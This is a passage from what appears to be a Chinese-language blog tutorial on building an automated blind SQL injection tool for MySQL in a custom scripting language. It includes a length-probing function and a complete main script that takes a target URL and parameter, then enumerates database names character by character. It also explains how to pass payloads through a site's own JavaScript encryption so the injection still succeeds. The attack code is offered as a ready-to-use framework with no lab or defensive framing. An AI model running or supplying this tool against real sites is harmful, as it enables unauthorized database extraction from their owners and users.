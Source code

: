 ```js
	}
}
function TakeLength(url,sentence,length){
	i = 0;
	while(JudgeRESEqule(url.URLEncode(Enc(sentence.i)),length) == 1){
		i = ToInt(i+2);
	}
	if(JudgeRESEqule(url.URLEncode(Enc(sentence.(i-1))),length) == 1){
		return ToInt(i);
	}else{
		return ToInt(i-1);
	}
}
```

可以看到，我只是在进行payload拼接的时候将payload和参数进行了js的加密。

这样子我们只需要修改js.js文件中的e函数就可以实现js加密的注入了。

让给我们看下最后的结果：

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210308140332821.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzE4MzkwNTYx,size_16,color_FFFFFF,t_70#pic_center)

可以看到我们即使存在js也是可以注入成功的，这样增加了程序的灵活性

### 存在验证码

存在验证码的话呢请看之前的文章，如何实现存在验证码的暴力破解

### 完整代码

其实我这里编写的只是一个框架，如果js加密比较复杂那么还是需要进行许多其他的获取，这里只是最简单的操作

最终附带所有代码：

MYSQL_Interject.wker

```js
#include ATTACKUTILS/MYSQLAttack.wker
function main(args)
{
	print("请输入您要测试的URL(不要带参数的值):");
	url =input();
	print("请输入参数的默认值:");
	par = input();
	length = GetRealLength(url.Enc(par));
	DataBaseNum = GetDataBaseNum(url,length,par);
	i = 0;
	while(i<DataBaseNum){
		DataBaseLength =GetDataBaseLength(url,length,i,par);
		j = 0;
		DataBaseName= "";
		while(j <DataBaseLength){
			DataBaseName = DataBaseName.GetDataBaseStr(url,length,i,ToInt(j+1),par);
			j=ToInt(j+1);
		}
		i = ToInt(i+1);
		print(DataBaseName);
	}
}
```
